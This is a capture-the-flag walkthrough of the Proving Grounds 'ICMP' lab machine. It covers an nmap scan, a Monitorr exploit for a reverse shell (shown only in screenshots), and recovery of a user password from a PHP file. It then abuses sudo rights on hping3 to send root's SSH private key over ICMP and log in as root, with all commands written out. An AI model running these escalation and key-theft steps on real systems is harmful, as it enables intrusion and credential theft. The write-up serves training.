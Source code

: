 ```yaml
---
layout: default
title: ICMP
parent: Proving Grounds Play
nav_order: 20
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.226.218
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 22:50 EST
Nmap scan report for 192.168.226.218
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 de:b5:23:89:bb:9f:d4:1a:b5:04:53:d0:b7:5c:b0:3f (RSA)
|   256 16:09:14:ea:b9:fa:17:e9:45:39:5e:3b:b4:fd:11:0a (ECDSA)
|_  256 9f:66:5e:71:b9:12:5d:ed:70:5a:4f:5a:8d:0d:65:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-title:             Monitorr            | Monitorr
|_Requested resource was http://192.168.226.218/mon/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.16 seconds

```

# Enumeration

---

## 80 | HTTP

The system appears to be running Monitorr version 1.7.6

![monitorr](../../../assets/images/ctfs/proving_grounds/icmp/monitorr.png)

# Exploitation

---

There is an exploit for this version of Monitorr

![searchsploit](../../../assets/images/ctfs/proving_grounds/icmp/searchsploit.png)

Run the exploit and we get a reverse shell on our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/icmp/shell.png)

# Post-Exploitation

---

## Enumerate Users

We find user _fox_.

Looking in _/home/fox_ we find a directory _/devel_ that we cannot access and a file _reminder_ that we can read.

```bash
www-data@icmp:/home/fox$ cat reminder
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?

```

There is a hint with a file name _crypt.php_.

If we try to access _/devel/crypt.php_ we can read the contents of the file.

```bash
www-data@icmp:/home/fox$ cat ./devel/crypt.php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>

```

It looks like we have the unencrypted vesion of the password for _fox_.

If we use that value as a password we can switch to the user _fox_

```bash
www-data@icmp:/home/fox$ su fox
Password:
$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox)

```

## Check Sudo Permissions for User Fox

```bash
$ sudo -l
[sudo] password for fox:
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

We can use sudo permissions on _hping3_

Checking GTFOBins for _hping3_ exploits.

![gtfobins](../../../assets/images/ctfs/proving_grounds/icmp/gtfobins.png)

We should be able to use this exploit to send the _root_ user _.ssh/id_rsa_ private key to our attack machine.

```bash
# open a second ssh session as user fox
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ ssh fox@192.168.226.218
$ whoami
fox

# Now listen for hping3 traffic locally on loopback 127.0.0.1

$ sudo hping3 --icmp 127.0.0.1 --listen signature --safe
Warning: Unable to guess the output interface
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!

# Finally we send the /root/.ssh/id_rsa private key

$ sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
HPING 127.0.0.1 (lo 127.0.0.1): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
len=128 ip=127.0.0.1 ttl=64 id=9781 icmp_seq=0 rtt=2.6 ms


```

As we can see the file is printed line by line in our second SSH session.

![hping](../../../assets/images/ctfs/proving_grounds/icmp/hping.png)

We now have the private rsa key for the root user and can simply SSH as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/icmp]
└─$ ssh -i id_rsa root@192.168.226.218
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 23 20:18:10 2022
root@icmp:~# id
uid=0(root) gid=0(root) groups=0(root)

```
